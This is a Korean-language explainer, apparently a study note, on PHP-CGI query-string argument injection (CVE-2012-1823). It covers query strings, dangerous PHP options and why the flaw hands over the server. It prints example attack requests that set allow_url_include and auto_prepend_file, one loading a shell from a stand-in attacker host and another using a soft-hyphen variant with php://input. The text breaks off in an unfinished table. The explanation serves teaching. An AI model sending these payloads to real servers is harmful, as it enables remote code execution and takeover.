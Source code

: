 ## ✅ 쿼리 스트링(Query String)이란?

웹 주소에서 `?` 뒤에 붙는 부분입니다.

예시:

```
http://example.com/index.php?name=kim&age=25
```

* 여기서 `?name=kim&age=25` 이 부분이 **쿼리 스트링**
* 보통은 **GET 방식의 파라미터 전달**용입니다

---

## ❗ 그런데 PHP가 CGI로 실행될 때 문제가 생깁니다

### 정상적인 구조

웹서버(Apache, Nginx 등)가 PHP 파일을 실행할 때,
`php-cgi.exe`에게는 **실행할 스크립트의 경로**만 넘겨줘야 합니다.

```bash
php-cgi.exe /var/www/html/index.php
```

---

## 💣 하지만 취약한 환경에서는...

**쿼리 스트링으로 PHP의 실행 옵션을 주입**할 수 있었던 문제가 발생했어요.

예시 공격 요청:

```
GET /php-cgi/php-cgi.exe?%2D%2Dallow_url_include%3D1+%2D%2Dauto_prepend_file%3Dhttp://attacker.com/shell.txt HTTP/1.1
```
```
%ADd+cgi.force_redirect%3D0+
%ADd+disable_functions%3D%22%22+
%ADd+allow_url_include%3D1+
%ADd+auto_prepend_file%3Dphp://input
```

→ 이걸 디코딩하면:

```
/php-cgi/php-cgi.exe?--allow_url_include=1 --auto_prepend_file=http://attacker.com/shell.txt
```

### 즉!

PHP 내부 옵션을 이렇게 직접 전달하게 되는 거예요:

```bash
php-cgi.exe --allow_url_include=1 --auto_prepend_file=http://attacker.com/shell.txt
```

💥 이건 마치 공격자가 PHP의 설정값을 마음대로 조작하는 것과 같아요.

---

## 🧨 왜 위험한가?

PHP 실행 옵션 중에는 이런 것들이 있어요:

| 옵션                  | 설명                  | 악용 시 효과              |
| ------------------- | ------------------- | -------------------- |
| `allow_url_include` | 외부 URL 포함 허용        | 외부 웹셸 불러오기 가능        |
| `auto_prepend_file` | PHP 파일 실행 전에 강제로 삽입 | 공격 코드 먼저 실행          |
| `disable_functions` | 위험 함수 해제            | system, exec 등 사용 가능 |

→ 이걸 쿼리 스트링으로 조작할 수 있었던 게 **CVE-2012-1823**의 본질입니다.

---

## 🔐 원래는 절대 안 돼야 함

정상적인 PHP 실행은 이렇게 되어야 하고:

```bash
php-cgi.exe /var/www/html/index.php
```

쿼리 스트링은 단지 **사용자 입력용**이어야 합니다:

```
/index.php?search=apple
```

그런데 **실행 옵션이 들어간다면? → 서버 통제권을 넘겨주는 셈**입니다.

---
| 질문               | 답변 |
| ---------------- | -- |
| 쿼리 스트링으로 PHP 인자를 |    |

